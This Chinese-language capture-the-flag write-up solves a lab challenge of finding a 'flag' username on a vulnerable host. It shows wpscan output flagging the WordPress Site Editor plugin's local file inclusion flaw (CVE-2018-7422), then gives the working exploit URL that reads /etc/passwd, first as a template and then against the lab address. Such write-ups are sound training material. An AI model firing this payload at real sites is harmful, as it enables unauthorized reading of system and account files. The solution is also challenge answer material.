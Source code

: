 ### [6pts] 綜合題型-02
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.24 - 10.100.229.32)內的任何一台弱點主機進行滲透，取得使用者的登入帳號，名稱的開頭好像是flag喔～
- 答案格式：
    - flag{username}

#### 解法
1. wpscan
    ```
    [+] site-editor
     | Location: http://10.100.229.26/wp-content/plugins/site-editor/
     | Latest Version: 1.1.1 (up to date)
     | Last Updated: 2017-05-02T23:34:00.000Z
     |
     | Detected By: Urls In Homepage (Passive Detection)
     |
     | [!] 1 vulnerability identified:
     |
     | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
     |     References:
     |      - https://wpvulndb.com/vulnerabilities/9044
     |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
     |      - https://seclists.org/fulldisclosure/2018/Mar/40
     |      - https://github.com/SiteEditor/editor/issues/2
     |
     | Version: 1.1.1 (80% confidence)
     | Detected By: Readme - Stable Tag (Aggressive Detection)
     |  - http://10.100.229.26/wp-content/plugins/site-editor/readme.txt
    ```


2. Get PoC
    - Source: https://seclists.org/fulldisclosure/2018/Mar/40

    - http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

3. LFI
    - http://10.100.229.26/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
    